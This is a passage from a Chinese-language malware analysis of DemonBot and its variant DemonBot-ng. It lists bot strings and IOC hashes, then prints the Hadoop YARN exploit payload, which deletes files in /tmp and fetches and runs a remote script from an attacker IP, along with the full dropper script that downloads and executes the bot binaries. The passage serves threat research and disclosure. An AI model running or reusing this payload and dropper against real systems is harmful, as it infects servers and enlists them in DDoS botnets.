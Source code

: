 ```
/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A
nwonknu
unknown
Hello
slammed
…
Sending TCP Packets To: %s:%d for %d seconds
STOP
[Shelling]-->[%s]-->[%s]-->[%s]-->[%s]-->[%s]*
```

*这是一个隐藏在随机名称 YSDKOP 后面的未更改的 [DemonBot](https://blog.radware.com/security/2018/10/new-demonbot-discovered/) 。*

```
*IOC

59719aa688954e7f4dd575173d7c9b5de6fd0d69d8c9ed8834d91a144e635e3b bins.sh 106dc7d4f44c1077b62c6d509ce471c79e27ffc7369d6418ddafed861c0f93be YSDKOP.arm4 dd62d3b51b194729f7270c590f647d08a1cbc6af8ecf0b92a98dc3e330fe304a YSDKOP.arm5 3fb0dd65608b93034e212ad85e660f6bc25a5df896410e0c6b9c411e56faac55 YSDKOP.arm6 74f8d9c9d91f87aa7f092efa6b12a4c9dfff492eb54f12d6e35e8bf3e96eacff YSDKOP.arm7 a36dff7844715c796de80f26b9dd4470de8cbc6c941499b6a94c048afd567316 YSDKOP.i586 7caed4bafe6c964c090d78f93e7eb7943bb19575532f19e70a87cfe2943d1621 YSDKOP.i686 dd8163a99b5cdd3e591213c64ad48e25d594f4b7ab9802cd7c60f3150a9e71f9 YSDKOP.m68k 67e85c8b24c3e382a1d83245d1c77f6b8b5f0b19be36fd8fb06f1cb42d07dad5 YSDKOP.mips 8b2407226356487558a26aba967befd48df53a5f53fd23b300f22b4dc9abe293 YSDKOP.mpsl b94176a7448aa8ea0c961bc69371778828f3ab5665b14cc235f8413d8bf86386 YSDKOP.ppc a96e07c8dc42eb05fa21069bb14391ee4241d1ccd9289c52cb273ffb7ecd3891 YSDKOP.sh4 43e445b0c644d52129c47154cd6bcdea7192d680cc3d2e8165b904c54ddd6fc2 YSDKOP.sparc
39f2b2c68362a347aad0942853d0262acec1e2f4174ba973b0c574f4567cb893 YSDKOP.x86*
```

# *上文，DemonBot-ng*

*通过以下 Hadoop YARN exploit 有效负载进行感染:*

```
*{"am-container-spec": {"commands": {"command": "cd /tmp; rm -rf *; wget http://80.211.59[.]125/n; sh n"}}, "application-id": "application_XXXXXXXXXXXXX_XXXX", "application-type": "YARN", "application-name": "get-shell"}*
```

*下载的脚本“n”包含下载两个二进制文件的代码，一个 32 位 x86，一个 64 位 x86:*

```
*$ cat n
#!/bin/sh
n="Supra.x86 Supra.x86_64"
http_server="80.211.59.125" 
dirs="/tmp/ /var/ /dev/shm/ /dev/ /var/run/ /var/tmp/"

for dir in $dirs
do
    >$dir.file && cd $dir
done 

for i in $n
do
    cp $SHELL $i
    >$i
    chmod 777 $i
    wget http://$http_server/$i -O $i
    chmod 777 $i
    ./$i
done*
```
